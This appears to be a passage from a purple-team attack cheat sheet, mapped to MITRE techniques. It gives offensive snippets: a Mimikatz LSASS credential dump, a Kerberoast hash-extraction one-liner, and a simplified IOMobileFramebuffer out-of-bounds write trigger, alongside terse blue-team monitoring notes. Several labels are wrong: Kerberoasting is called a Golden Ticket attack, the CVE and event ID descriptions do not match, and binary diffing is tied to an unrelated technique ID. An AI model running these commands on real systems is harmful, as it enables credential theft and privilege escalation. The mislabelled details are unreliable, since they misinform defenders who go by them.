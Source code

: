#### Credential theft

MITRE: [T1003](https://attack.mitre.org/techniques/T1003/)

Tools:

```powershell
# Dump LSASS with Mimikatz  
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'  
```

#### AD Persistence

MITRE: [T1098](https://attack.mitre.org/techniques/T1098/)

Tools:

```powershell
# Golden Ticket attack  
Invoke-Kerberoast -OutputFormat Hashcat | % { $_.Hash } | Out-File hashes.txt  
```

Purple team actions

- [x] Red: Lateral movement with Rubeus.
- [x] Blue: Monitor for 4624 (Kerberos TGT requests).

## macOS exploitation

XNU Heap Overflow (CVE-2021-30860)

### Attack path

MITRE: [T1068](https://attack.mitre.org/techniques/T1068/)

Exploit Steps:

```c
// Trigger IOMFB vulnerability (simplified)  
io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOMobileFramebuffer"));  
IOConnectCallMethod(service, 78, input, inputCnt, output, &outputCnt);  // OOB write  
```

Purple team actions

- [x] Red: Weaponize with MacDirtyCow (CVE-2022-46689).
- [x] Blue: Enable System Integrity Protection (SIP) and monitor kernel_task crashes.

## Next-Gen patch exploitation

### Attack paths

#### Binary diffing

MITRE: [T1599](https://attack.mitre.org/techniques/T1599/)
